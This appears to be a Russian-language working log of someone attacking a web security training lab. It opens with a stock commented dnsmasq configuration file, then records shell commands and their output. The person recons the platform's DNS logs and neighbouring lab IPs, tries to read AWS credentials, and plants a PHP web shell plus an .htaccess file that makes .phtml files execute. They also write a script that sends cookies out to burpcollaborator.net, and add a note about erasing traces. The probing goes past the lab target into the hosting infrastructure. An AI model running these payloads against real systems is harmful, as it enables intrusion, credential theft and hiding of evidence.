# Give the machine which says its name is "bert" IP address
# 192.168.0.70 and an infinite lease
#dhcp-host=bert,192.168.0.70,infinite

# Always give the host with client identifier 01:02:02:04
# the IP address 192.168.0.60
#dhcp-host=id:01:02:02:04,192.168.0.60

# Always give the InfiniBand interface with hardware address
# 80:00:00:48:fe:80:00:00:00:00:00:00:f4:52:14:03:00:28:05:81 the
# ip address 192.168.0.61. The client id is derived from the prefix
# ff:00:00:00:00:00:02:00:00:02:c9:00 and the last 8 pairs of
# hex digits of the hardware address.
#dhcp-host=id:ff:00:00:00:00:00:02:00:00:02:c9:00:f4:52:14:03:00:28:05:81,192.168.0.61

# Always give the host with client identifier "marjorie"
# the IP address 192.168.0.60
#dhcp-host=id:marjorie,192.168.0.60

# Enable the address given for "judge" in /etc/hosts
# to be given to a machine presenting the name "judge" when
# it asks for a DHCP lease.
#dhcp-host=judge

# Never offer DHCP service to a machine whose Ethernet
# address is 11:22:33:44:55:66
#dhcp-host=11:22:33:44:55:66,ignore

# Ignore any client-id presented by the machine with Ethernet
# address 11:22:33:44:55:66. This is useful to prevent a machine
# being treated differently when running under different OS's or
# between PXE boot and OS boot.
#dhcp-host=11:22:33:44:55:66,id:*

# Send extra options which are tagged as "red" to
# the machine with Ethernet address 11:22:33:44:55:66
#dhcp-host=11:22:33:44:55:66,set:red

# Send extra options which are tagged as "red" to
# any machine with Ethernet address starting 11:22:33:
#dhcp-host=11:22:33:*:*:*,set:red

# Give a fixed IPv6 address and name to client with 
# DUID 00:01:00:01:16:d2:83:fc:92:d4:19:e2:d8:b2
# Note the MAC addresses CANNOT be used to identify DHCPv6 clients.
# Note also that the [] around the IPv6 address are obligatory.
#dhcp-host=id:00:01:00:01:16:d2:83:fc:92:d4:19:e2:d8:b2, fred, [1234::5] 

# Ignore any clients which are not specified in dhcp-host lines
# or /etc/ethers. Equivalent to ISC "deny unknown-clients".
# This relies on the special "known" tag which is set when
# a host is matched.
#dhcp-ignore=tag:!known

# Send extra options which are tagged as "red" to any machine whose
# DHCP vendorclass string includes the substring "Linux"
#dhcp-vendorclass=set:red,Linux

# Send extra options which are tagged as "red" to any machine one
# of whose DHCP userclass strings includes the substring "accounts"
#dhcp-userclass=set:red,accounts

# Send extra options which are tagged as "red" to any machine whose
# MAC address matches the pattern.
#dhcp-mac=set:red,00:60:8C:*:*:*

# If this line is uncommented, dnsmasq will read /etc/ethers and act
# on the ethernet-address/IP pairs found there just as if they had
# been given as --dhcp-host options. Useful if you keep
# MAC-address/host mappings there for other purposes.
#read-ethers

# Send options to hosts which ask for a DHCP lease.
# See RFC 2132 for details of available options.
# Common options can be given to dnsmasq by name:
# run "dnsmasq --help dhcp" to get a list.
# Note that all the common settings, such as netmask and
# broadcast address, DNS server and default route, are given
# sane defaults by dnsmasq. You very likely will not need
# any dhcp-options. If you use Windows clients and Samba, there
# are some options which are recommended, they are detailed at the
# end of this section.

# Override the default route supplied by dnsmasq, which assumes the
# router is the same machine as the one running dnsmasq.
#dhcp-option=3,1.2.3.4

# Do the same thing, but using the option name
#dhcp-option=option:router,1.2.3.4

# Override the default route supplied by dnsmasq and send no default
# route at all. Note that this only works for the options sent by
# default (1, 3, 6, 12, 28) the same line will send a zero-length option
# for all other option numbers.
#dhcp-option=3

# Set the NTP time server addresses to 192.168.0.4 and 10.10.0.5
#dhcp-option=option:ntp-server,192.168.0.4,10.10.0.5

# Send DHCPv6 option. Note [] around IPv6 addresses.
#dhcp-option=option6:dns-server,[1234::77],[1234::88]

# Send DHCPv6 option for namservers as the machine running 
# dnsmasq and another.
#dhcp-option=option6:dns-server,[::],[1234::88]

# Ask client to poll for option changes every six hours. (RFC4242)
#dhcp-option=option6:information-refresh-time,6h

# Set option 58 client renewal time (T1). Defaults to half of the
# lease time if not specified. (RFC2132)
#dhcp-option=option:T1,1m

# Set option 59 rebinding time (T2). Defaults to 7/8 of the
# lease time if not specified. (RFC2132)
#dhcp-option=option:T2,2m

# Set the NTP time server address to be the same machine as
# is running dnsmasq
#dhcp-option=42,0.0.0.0

# Set the NIS domain name to "welly"
#dhcp-option=40,welly

# Set the default time-to-live to 50
#dhcp-option=23,50

# Set the "all subnets are local" flag
#dhcp-option=27,1

# Send the etherboot magic flag and then etherboot options (a string).
#dhcp-option=128,e4:45:74:68:00:00
#dhcp-option=129,NIC=eepro100

# Specify an option which will only be sent to the "red" network
# (see dhcp-range for the declaration of the "red" network)
# Note that the tag: part must precede the option: part.
#dhcp-option = tag:red, option:ntp-server, 192.168.1.1

# The following DHCP options set up dnsmasq in the same way as is specified
# for the ISC dhcpcd in
# https://web.archive.org/web/20040313070105/http://us1.samba.org/samba/ftp/docs/textdocs/DHCP-Server-Configuration.txt
# adapted for a typical dnsmasq installation where the host running
# dnsmasq is also the host running samba.
# you may want to uncomment some or all of them if you use
# Windows clients and Samba.
#dhcp-option=19,0           # option ip-forwarding off
#dhcp-option=44,0.0.0.0     # set netbios-over-TCP/IP nameserver(s) aka WINS server(s)
#dhcp-option=45,0.0.0.0     # netbios datagram distribution server
#dhcp-option=46,8           # netbios node type

# Send an empty WPAD option. This may be REQUIRED to get windows 7 to behave.
#dhcp-option=252,"\n"

# Send RFC-3397 DNS domain search DHCP option. WARNING: Your DHCP client
# probably doesn't support this......
#dhcp-option=option:domain-search,eng.apple.com,marketing.apple.com

# Send RFC-3442 classless static routes (note the netmask encoding)
#dhcp-option=121,192.168.1.0/24,1.2.3.4,10.0.0.0/8,5.6.7.8

# Send vendor-class specific options encapsulated in DHCP option 43.
# The meaning of the options is defined by the vendor-class so
# options are sent only when the client supplied vendor class
# matches the class given here. (A substring match is OK, so "MSFT"
# matches "MSFT" and "MSFT 5.0"). This example sets the
# mtftp address to 0.0.0.0 for PXEClients.
#dhcp-option=vendor:PXEClient,1,0.0.0.0

# Send microsoft-specific option to tell windows to release the DHCP lease
# when it shuts down. Note the "i" flag, to tell dnsmasq to send the
# value as a four-byte integer - that's what microsoft wants. See
# http://technet2.microsoft.com/WindowsServer/en/library/a70f1bb7-d2d4-49f0-96d6-4b7414ecfaae1033.mspx?mfr=true
#dhcp-option=vendor:MSFT,2,1i

# Send the Encapsulated-vendor-class ID needed by some configurations of
# Etherboot to allow is to recognise the DHCP server.
#dhcp-option=vendor:Etherboot,60,"Etherboot"

# Send options to PXELinux. Note that we need to send the options even
# though they don't appear in the parameter request list, so we need
# to use dhcp-option-force here.
# See http://syslinux.zytor.com/pxe.php#special for details.
# Magic number - needed before anything else is recognised
#dhcp-option-force=208,f1:00:74:7e
# Configuration file name
#dhcp-option-force=209,configs/common
# Path prefix
#dhcp-option-force=210,/tftpboot/pxelinux/files/
# Reboot time. (Note 'i' to send 32-bit value)
#dhcp-option-force=211,30i

# Set the boot filename for netboot/PXE. You will only need
# this if you want to boot machines over the network and you will need
# a TFTP server; either dnsmasq's built-in TFTP server or an
# external one. (See below for how to enable the TFTP server.)
#dhcp-boot=pxelinux.0

# The same as above, but use custom tftp-server instead machine running dnsmasq
#dhcp-boot=pxelinux,server.name,192.168.1.100

# Boot for iPXE. The idea is to send two different
# filenames, the first loads iPXE, and the second tells iPXE what to
# load. The dhcp-match sets the ipxe tag for requests from iPXE.
#dhcp-boot=undionly.kpxe
#dhcp-match=set:ipxe,175 # iPXE sends a 175 option.
#dhcp-boot=tag:ipxe,http://boot.ipxe.org/demo/boot.php

# Encapsulated options for iPXE. All the options are
# encapsulated within option 175
#dhcp-option=encap:175, 1, 5b         # priority code
#dhcp-option=encap:175, 176, 1b       # no-proxydhcp
#dhcp-option=encap:175, 177, string   # bus-id
#dhcp-option=encap:175, 189, 1b       # BIOS drive code
#dhcp-option=encap:175, 190, user     # iSCSI username
#dhcp-option=encap:175, 191, pass     # iSCSI password

# Test for the architecture of a netboot client. PXE clients are
# supposed to send their architecture as option 93. (See RFC 4578)
#dhcp-match=peecees, option:client-arch, 0 #x86-32
#dhcp-match=itanics, option:client-arch, 2 #IA64
#dhcp-match=hammers, option:client-arch, 6 #x86-64
#dhcp-match=mactels, option:client-arch, 7 #EFI x86-64

# Do real PXE, rather than just booting a single file, this is an
# alternative to dhcp-boot.
#pxe-prompt="What system shall I netboot?"
# or with timeout before first available action is taken:
#pxe-prompt="Press F8 for menu.", 60

# Available boot services. for PXE.
#pxe-service=x86PC, "Boot from local disk"

# Loads <tftp-root>/pxelinux.0 from dnsmasq TFTP server.
#pxe-service=x86PC, "Install Linux", pxelinux

# Loads <tftp-root>/pxelinux.0 from TFTP server at 1.2.3.4.
# Beware this fails on old PXE ROMS.
#pxe-service=x86PC, "Install Linux", pxelinux, 1.2.3.4

# Use bootserver on network, found my multicast or broadcast.
#pxe-service=x86PC, "Install windows from RIS server", 1

# Use bootserver at a known IP address.
#pxe-service=x86PC, "Install windows from RIS server", 1, 1.2.3.4

# If you have multicast-FTP available,
# information for that can be passed in a similar way using options 1
# to 5. See page 19 of
# http://download.intel.com/design/archives/wfm/downloads/pxespec.pdf


# Enable dnsmasq's built-in TFTP server
#enable-tftp

# Set the root directory for files available via FTP.
#tftp-root=/var/ftpd

# Do not abort if the tftp-root is unavailable
#tftp-no-fail

# Make the TFTP server more secure: with this set, only files owned by
# the user dnsmasq is running as will be send over the net.
#tftp-secure

# This option stops dnsmasq from negotiating a larger blocksize for TFTP
# transfers. It will slow things down, but may rescue some broken TFTP
# clients.
#tftp-no-blocksize

# Set the boot file name only when the "red" tag is set.
#dhcp-boot=tag:red,pxelinux.red-net

# An example of dhcp-boot with an external TFTP server: the name and IP
# address of the server are given after the filename.
# Can fail with old PXE ROMS. Overridden by --pxe-service.
#dhcp-boot=/var/ftpd/pxelinux.0,boothost,192.168.0.3

# If there are multiple external tftp servers having a same name
# (using /etc/hosts) then that name can be specified as the
# tftp_servername (the third option to dhcp-boot) and in that
# case dnsmasq resolves this name and returns the resultant IP
# addresses in round robin fashion. This facility can be used to
# load balance the tftp load among a set of servers.
#dhcp-boot=/var/ftpd/pxelinux.0,boothost,tftp_server_name

# Set the limit on DHCP leases, the default is 150
#dhcp-lease-max=150

# The DHCP server needs somewhere on disk to keep its lease database.
# This defaults to a sane location, but if you want to change it, use
# the line below.
#dhcp-leasefile=/var/lib/misc/dnsmasq.leases

# Set the DHCP server to authoritative mode. In this mode it will barge in
# and take over the lease for any client which broadcasts on the network,
# whether it has a record of the lease or not. This avoids long timeouts
# when a machine wakes up on a new network. DO NOT enable this if there's
# the slightest chance that you might end up accidentally configuring a DHCP
# server for your campus/company accidentally. The ISC server uses
# the same option, and this URL provides more information:
# http://www.isc.org/files/auth.html
#dhcp-authoritative

# Set the DHCP server to enable DHCPv4 Rapid Commit Option per RFC 4039.
# In this mode it will respond to a DHCPDISCOVER message including a Rapid Commit
# option with a DHCPACK including a Rapid Commit option and fully committed address
# and configuration information. This must only be enabled if either the server is 
# the only server for the subnet, or multiple servers are present and they each
# commit a binding for all clients.
#dhcp-rapid-commit

# Run an executable when a DHCP lease is created or destroyed.
# The arguments sent to the script are "add" or "del",
# then the MAC address, the IP address and finally the hostname
# if there is one.
#dhcp-script=/bin/echo

# Set the cachesize here.
#cache-size=150

# If you want to disable negative caching, uncomment this.
#no-negcache

# Normally responses which come from /etc/hosts and the DHCP lease
# file have Time-To-Live set as zero, which conventionally means
# do not cache further. If you are happy to trade lower load on the
# server for potentially stale date, you can set a time-to-live (in
# seconds) here.
#local-ttl=

# If you want dnsmasq to detect attempts by Verisign to send queries
# to unregistered .com and .net hosts to its sitefinder service and
# have dnsmasq instead return the correct NXDOMAIN response, uncomment
# this line. You can add similar lines to do the same for other
# registries which have implemented wildcard A records.
#bogus-nxdomain=64.94.110.11

# If you want to fix up DNS results from upstream servers, use the
# alias option. This only works for IPv4.
# This alias makes a result of 1.2.3.4 appear as 5.6.7.8
#alias=1.2.3.4,5.6.7.8
# and this maps 1.2.3.x to 5.6.7.x
#alias=1.2.3.0,5.6.7.0,255.255.255.0
# and this maps 192.168.0.10->192.168.0.40 to 10.0.0.10->10.0.0.40
#alias=192.168.0.10-192.168.0.40,10.0.0.0,255.255.255.0

# Change these lines if you want dnsmasq to serve MX records.

# Return an MX record named "maildomain.com" with target
# servermachine.com and preference 50
#mx-host=maildomain.com,servermachine.com,50

# Set the default target for MX records created using the localmx option.
#mx-target=servermachine.com

# Return an MX record pointing to the mx-target for all local
# machines.
#localmx

# Return an MX record pointing to itself for all local machines.
#selfmx

# Change the following lines if you want dnsmasq to serve SRV
# records.  These are useful if you want to serve ldap requests for
# Active Directory and other windows-originated DNS requests.
# See RFC 2782.
# You may add multiple srv-host lines.
# The fields are <name>,<target>,<port>,<priority>,<weight>
# If the domain part if missing from the name (so that is just has the
# service and protocol sections) then the domain given by the domain=
# config option is used. (Note that expand-hosts does not need to be
# set for this to work.)

# A SRV record sending LDAP for the example.com domain to
# ldapserver.example.com port 389
#srv-host=_ldap._tcp.example.com,ldapserver.example.com,389

# A SRV record sending LDAP for the example.com domain to
# ldapserver.example.com port 389 (using domain=)
#domain=example.com
#srv-host=_ldap._tcp,ldapserver.example.com,389

# Two SRV records for LDAP, each with different priorities
#srv-host=_ldap._tcp.example.com,ldapserver.example.com,389,1
#srv-host=_ldap._tcp.example.com,ldapserver.example.com,389,2

# A SRV record indicating that there is no LDAP server for the domain
# example.com
#srv-host=_ldap._tcp.example.com

# The following line shows how to make dnsmasq serve an arbitrary PTR
# record. This is useful for DNS-SD. (Note that the
# domain-name expansion done for SRV records _does_not
# occur for PTR records.)
#ptr-record=_http._tcp.dns-sd-services,"New Employee Page._http._tcp.dns-sd-services"

# Change the following lines to enable dnsmasq to serve TXT records.
# These are used for things like SPF and zeroconf. (Note that the
# domain-name expansion done for SRV records _does_not
# occur for TXT records.)

#Example SPF.
#txt-record=example.com,"v=spf1 a -all"

#Example zeroconf
#txt-record=_http._tcp.example.com,name=value,paper=A4

# Provide an alias for a "local" DNS name. Note that this _only_ works
# for targets which are names from DHCP or /etc/hosts. Give host
# "bert" another name, bertrand
#cname=bertrand,bert

# For debugging purposes, log each DNS query as it passes through
# dnsmasq.
#log-queries

# Log lots of extra information about DHCP transactions.
#log-dhcp

# Include another lot of configuration options.
#conf-file=/etc/dnsmasq.more.conf
#conf-dir=/etc/dnsmasq.d

# Include all the files in a directory except those ending in .bak
#conf-dir=/etc/dnsmasq.d,.bak

# Include all files in a directory which end in .conf
#conf-dir=/etc/dnsmasq.d/,*.conf

# If a DHCP client claims that its name is "wpad", ignore that.
# This fixes a security hole. see CERT Vulnerability VU#598349
#dhcp-name-match=set:wpad-ignore,wpad
#dhcp-ignore-names=tag:wpad-ignore
```

запрос `cat /etc/dnsmasq.d/*`
ответ 
```
# All files in this directory will be read by dnsmasq as 
# configuration files, except if their names end in 
# ".dpkg-dist",".dpkg-old" or ".dpkg-new"
#
# This can be changed by editing /etc/default/dnsmasq
```

запрос `inotifywait -m /academy/aws_credentials`
ответ 
```
Setting up watches.
Couldn't watch /academy/aws_credentials: Permission denied
```


===============----===============
🔥 Нашел DNS-лог всей платформы
🔥 Увидел IP-адреса соседних лаб
🔥 Обнаружил фейковый AWS metadata
🔥 Понял, как перехватывается Burp Collaborator

не получается зайти
запрос `curl http://10.0.3.90/`
ответ 
```
<html><head><title>Client Error: Forbidden</title></head><body><h1>Client Error: Forbidden</h1></body></html>
```

запрос `ps aux | grep academy | grep -v grep`
ответ 
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2146

root         1  0.0  0.0    940     4 ?        Ss   18:27   0:00 /sbin/docker-init -- /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root         7  0.0  0.1   3980  2880 ?        S    18:27   0:00 /bin/bash /academy/run.sh java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar
root        37  0.0  0.0   2640   644 ?        S    18:27   0:00 inotifywait -m /academy/aws_credentials --timefmt %y-%m-%d %H:%M:%S.000 --format NOTIFY [%T] %w %e %f
dnsmasq    322  0.0  0.0   2944   156 ?        S    18:27   0:00 dnsmasq --user=dnsmasq --log-queries=extra --log-facility=- --bogus-priv --no-resolv --server=/api.openai.com/169.254.169.253 --server=/*.api.openai.com/ --address=/weliketoshop.net/192.168.0.1 --server=/burpcollaborator.net/169.254.169.253 --server=/oastify.com/169.254.169.253 --server=/cms-0a2b00a10479b62481703afc00df0051.web-security-academy.net/169.254.169.253 --server=/0a2b00a10479b62481703afc00df0051.web-security-academy.net/169.254.169.253 --server=/exploit-0ad900f004a0b6d5818e3935015c0064.exploit-server.net/169.254.169.253 --server=/oauth-0a8500f504ebb6ef8121387e0206000b.oauth-server.net/169.254.169.253 --server=/ssmmessages.eu-west-1.amazonaws.com/169.254.169.253 --server=/1.web-security-academy.net/169.254.169.253 --server=/2.web-security-academy.net/169.254.169.253 --server=/3.web-security-academy.net/169.254.169.253 --server=/*.1.web-security-academy.net/ --server=/*.2.web-security-academy.net/ --server=/*.3.web-security-academy.net/ --server=/#/
root       325  0.0  0.1   6340  3856 ?        S    18:27   0:00 sudo -EHu academy java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar hot
academy    326  0.4  6.8 2644684 136772 ?      Sl   18:27   0:16 java -Dlog4j2.formatMsgNoLookups=true -Dnetworkaddress.cache.ttl=60 -Dnetworkaddress.cache.negative.ttl=10 -jar /academy/jars/lab-base-snapshot.jar hot
```

запрос `find /var/www -type d -writable 2>/dev/null`
ответ 
```
/var/www
/var/www/images
```

шел нет

запрос `find / -type d -writable 2>/dev/null | grep -v -E "(/proc|/sys|/dev)" | head -20`
ответ 
```
/home/peter-MLNF8M
/run/lock
/tmp
/var/lib/php/sessions
/var/tmp
/var/www
/var/www/images
/var/crash
```

загрузил echo "<?php system(\$_GET['cmd']); ?>" > /var/www/images/shell.phtml
echo "TEST" > /var/lib/php/sessions/test.html
echo "TEST" > /var/tmp/test.html
echo "TEST" > /var/crash/test.html

https://0a3800f503ecbb43805ea84e00e80094.web-security-academy.net/test.html   нет
https://0a3800f503ecbb43805ea84e00e80094.web-security-academy.net/../var/tmp/test.html нет
https://0a3800f503ecbb43805ea84e00e80094.web-security-academy.net/sessions/test.html нет

---------------

echo "AddType application/x-httpd-php .phtml" > /var/www/images/.htaccess

echo '<script>document.location="https://burpcollaborator.net/?c="+document.cookie</script>' > /var/www/images/steal.html

логи 

запрос `tail -20 /var/log/dnsmasq/dnsmasq.log`
ответ 
```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 1985

Feb 11 19:29:59 dnsmasq[322]: 89 127.0.0.1/48424 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:29:59 dnsmasq[322]: 89 127.0.0.1/48424 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:29:59 dnsmasq[322]: 89 127.0.0.1/48424 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:29:59 dnsmasq[322]: 89 127.0.0.1/48424 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:30:59 dnsmasq[322]: 90 127.0.0.1/54002 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:30:59 dnsmasq[322]: 90 127.0.0.1/54002 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:30:59 dnsmasq[322]: 90 127.0.0.1/54002 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:30:59 dnsmasq[322]: 90 127.0.0.1/54002 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:31:59 dnsmasq[322]: 91 127.0.0.1/55119 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:31:59 dnsmasq[322]: 91 127.0.0.1/55119 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:31:59 dnsmasq[322]: 91 127.0.0.1/55119 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:31:59 dnsmasq[322]: 91 127.0.0.1/55119 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:32:59 dnsmasq[322]: 92 127.0.0.1/46996 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:32:59 dnsmasq[322]: 92 127.0.0.1/46996 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:32:59 dnsmasq[322]: 92 127.0.0.1/46996 reply 2.web-security-academy.net is 10.0.3.183
Feb 11 19:32:59 dnsmasq[322]: 92 127.0.0.1/46996 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:33:59 dnsmasq[322]: 93 127.0.0.1/40554 query[A] 2.web-security-academy.net from 127.0.0.1
Feb 11 19:33:59 dnsmasq[322]: 93 127.0.0.1/40554 forwarded 2.web-security-academy.net to 169.254.169.253
Feb 11 19:33:59 dnsmasq[322]: 93 127.0.0.1/40554 reply 2.web-security-academy.net is 10.0.4.209
Feb 11 19:33:59 dnsmasq[322]: 93 127.0.0.1/40554 reply 2.web-security-academy.net is 10.0.3.183

```

запрос ``
ответ 
```
```


## Убрать за собой cледы**
`cat /var/log/apache2/error.log | tail -20`


-------
